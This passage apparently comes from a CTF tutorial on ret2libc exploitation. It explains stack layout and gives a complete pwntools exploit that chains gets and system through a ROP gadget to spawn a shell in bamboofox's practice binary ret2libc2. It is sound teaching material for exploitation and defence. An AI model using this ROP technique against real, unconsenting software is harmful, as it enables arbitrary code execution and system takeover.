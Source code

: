 
Here we need to pay attention to the structure of the function call stack. If the system function is called normally, we will have a corresponding return address when calling, where "BBBB" is used as the fake address, and then the parameter content corresponding to the parameter.


This example is relatively simple, and provides the address of the system address and /bin/sh, but most programs don't have such a good condition.


#### Example 2


Here is an example of ret2libc2 in bamboofox.


Click to download: [ret2libc2](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2)


This topic is basically the same as in Example 1, except that the /bin/sh string no longer appears, so we need to read the string ourselves, so we need two gadgets, the first control program reads the string, the first The two control programs execute system(&quot;/bin/sh&quot;). Since the vulnerability is consistent with the above, here is not to say more, the specific exp is as follows


```python
#!/usr/bin/env python3
from pwn import *

#--------setup--------#

context(arch="i386", os="linux")

elf = ELF("ret2libc2")
p = elf.process()

#--------ret2libc--------#

offset = 112
gets_plt = elf.plt["gets"]
# ROPgadget --binary ret2libc2 --only "ret"
ret = 0x08048426
buf2 = 0x0804A080
# ROPgadget --binary ret2libc2 --only "pop|ret"
pop_ebx = 0x0804843d
system_plt = elf.plt["system"]
buf2 = 0x0804A080

# step 1: call gets(buf2) and input /bin/sh
# step 2: call system("/bin/sh")
payload = flat(
    b"A" * offset,
    gets_plt,
    pop_ebx, # ret addr for gets
    buf2, # arg for gets
    system_plt,
    b"B" * 4, # ret addr for system
    buf2, # arg for system
)
"""
Note that pop_ebx is used to pop buf2 off the stack
when gets(buf2) returns. After that, system_plt is on
the top of the stack, so the ROP chain continues.
This is a trick used in ROP, commonly referred as
"preparing the stack" for system("/bin/sh").
"""

p.sendlineafter("What do you think ?", payload)
```